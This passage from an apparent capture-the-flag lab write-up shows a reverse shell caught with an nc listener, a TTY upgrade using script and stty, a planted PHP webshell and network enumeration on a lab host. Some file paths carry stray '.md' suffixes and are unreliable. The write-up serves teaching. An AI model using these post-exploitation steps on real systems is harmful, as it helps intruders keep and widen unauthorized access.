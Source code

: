 

I'll upgrade my shell using the `script` / `stty` trick (`python` and
`pty` work as well):



    www-data@thenotebook:~.md$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@thenotebook:~.md$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@thenotebook:~.md$ 



## Shell as noah

### Enumeration

I'm dropped into `~.md` (which is `/var/www.md`), but the only file
there is my webshell:



    www-data@thenotebook:~.md$ ls -l
    total 4
    -rw-r--r-- 1 root root 35 Jul 22 01:15 a1ba6293840f8a8fb4d5dda74c98c90a.php



This is really weird, and I'll dig into it in [Beyond
Root](#beyond-root).

`ifconfig` does show that I'm on the host machine (10.10.10.230), but
also that there's a Docker network:



    www-data@thenotebook:~.md$ ifconfig
    docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
            ether 02:42:91:98:d2:78  txqueuelen 0  (Ethernet)
            RX packets 164784  bytes 22121111 (22.1 MB)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 198504  bytes 16853611 (16.8 MB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

    ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 10.10.10.230  netmask 255.255.255.0  broadcast 10.10.10.255
            ether 00:50:56:b9:15:df  txqueuelen 1000  (Ethernet)
            RX packets 771921  bytes 49768345 (49.7 MB)
            RX errors 0  dropped 113  overruns 0  frame 0
            TX packets 777487  bytes 56653765 (56.6 MB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisio
    ...[snip]...
